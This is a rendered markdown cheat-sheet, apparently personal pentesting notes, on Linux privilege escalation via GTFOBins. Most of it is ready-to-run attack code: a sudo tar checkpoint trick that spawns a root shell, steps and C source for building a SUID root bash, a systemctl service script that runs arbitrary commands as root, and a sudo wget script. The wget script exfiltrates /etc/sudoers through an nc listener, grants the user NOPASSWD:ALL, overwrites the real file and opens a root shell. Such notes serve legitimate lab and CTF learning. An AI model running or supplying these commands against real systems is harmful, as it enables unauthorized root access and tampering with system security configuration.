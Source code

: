 # GTFOBins

<div class="row row-cols-md-2"><div>

**[GTFOBins](https://gtfobins.github.io/)** (8.3k ⭐) a.k.a. "Get The Fuck Out" is a list of way to exploit binaries such as `sed`/`tar`/... to get root.

Common use cases are:

* [Binary was given SUID/GUID permissions](perms.md#suidguid-bit)
* [Binary was given capabilities](perms.md#capabilities)
* [Binary was delegate sudo permission](sudo.md#administrative-privileges)
* ...

Note that not every exploit may pop a shell. Some only allow you to edit some files, which may help getting root.
</div><div>

**Example** 🔥

You can only run `tar` using `sudo`. Run the command below from [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo), and you will get a root shell.

```ps
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
</div></div>

<hr class="sep-both">

## ⚡ Create a root bash

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ Version 1: with root executing 2 commands

```ps
$ cp /bin/bash /tmp/rootbash
```

Run **as root** (SUID executable, sudo...) the commands

```ps
$ chown root /tmp/rootbash
$ chmod +s /tmp/bash
```

Run the bash with `-p` and enjoy.

```ps
$ /tmp/rootbash -p
```
</div><div>

* ➡️ Version 2: with root executing an executable

```c
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

```ps
$ gcc xxx.c -o rootbash
```

Then, you have to execute `rootbash` as root, either using a misconfiguration in sudo, SUID, cron jobs...

</div></div>

<hr class="sep-both">

## ⚡ SUID `systemctl` script

Description: this script makes it easier to run several commands using `systemctl`.

<div class="row row-cols-md-2 mt-4"><div>

Create a file `script.sh` with the contents below

```ps
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```
</div><div>

Calls

```ps
$ chmod +x script.sh
$ ./script.sh id
$ ./script.sh ls -laR /root
```
</div></div>

<hr class="sep-both">

## ⚡ SUDO `wget` script

Description: this script automate privilege escalation using `wget`.

<div class="row row-cols-md-2"><div class="align-self-center">

It's quite easy to do it manually, but you need two machines (ex: your VM and the target). This script is complex because everything is done locally, without interacting with your VM!

* Will use `wget` to fetch `/etc/sudoers` and `nc` to grab the result

* Then, it will replace the line giving access to `wget` and give you the permission to run every command as root

* Then, we will start a python web server, and use `wget` with `-o` to remplace our new sudo file with the tampered one.

* Finally, the script run `sudo bash` and open your shell as root

⚠️ The script may mess with your sudoers file if something goes wrong. I destroyed my VM 7 times before managing to make the script work 🌳. If you understand the commands used in the script, use them one by one, and check the tampered sudoers file (output) BEFORE overriding the current one.
</div><div>

```bash
file=/etc/sudoers
port=4444
# todo: use mktemp
output=stolenfile

# Working in /tmp
cd /tmp
# -d and -q 0 to quit when connection is closed
nc -dlnp $port -q 0 > $output &
# -q = quiet, and -T 1 = close after one second
sudo wget -q --post-file=$file localhost:$port -T 1
# remove the HTTP headers
sed -i '1,9d' $output
# replace the command with find
sed -i "s/\($(whoami).*\)/$(whoami)  ALL=(ALL) NOPASSWD:ALL/g" $output
# create a web server
python3 -m http.server $port &
pid=$(echo $!)
sleep 1 # let the webserver start
# get the file then kill the webserver
# replace /etc/sudoers
sudo wget -q localhost:$port/$output -O $file && kill $pid
# open the root shell
sudo bash
```
</div></div>